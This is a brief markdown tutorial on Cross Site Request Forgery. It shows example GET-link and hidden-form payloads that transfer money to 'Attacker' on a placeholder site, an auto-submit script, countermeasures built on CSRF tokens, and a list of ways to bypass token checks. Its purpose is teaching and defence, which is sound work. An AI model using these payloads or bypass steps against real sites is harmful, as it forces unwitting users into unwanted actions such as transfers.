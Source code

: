 # Cross Site Request Forgery Vulnerability

CSRF is an attack vector that allows an attacker to get the users to perform actions that they do not intend to perform. 

### Get Request
```html
<a href="http://site.com/send?to=Attacker&amount=$500">Click me!</a>
```
### Post Request
```html
<form action="http://site.com/send" method="POST">
	<input type="hidden" name="to" value="Attacker"/>
	<input type="hidden" name="amount" value="$500"/>
	<input type="submit" value="Click me"/>
</form>
```

To perform an automatic submit:

```javascript
<script>
	document.forms[0].submit();
</script>
```

![CSRF](https://www.imperva.com/learn/wp-content/uploads/sites/13/2019/01/csrf-cross-site-request-forgery.png)

***

## Countermeasures:

- Implementing a CSRF token, This random token is unique for every session ID, it acts as an extra parameter when performing a request to make sure the origin of the request and verified by the server.
- Generate random tokens for both Cookies and Request parameters.
- Users should log off from website when they aren't in use, with disallowing the browser to save the credentials.

***

## Technique to bypass Token verifications: 

- Removing the CSRF Token from the request, or leaving it empty.
- Use a duplicated token from a previous request.
- Check if you can predict the token generation mechanism.
- Sending a random token

***

## Takeaways: 

- Keep an eye for HTTP requests that perform some action on the server.
- Get requests should never modify any data on the server.

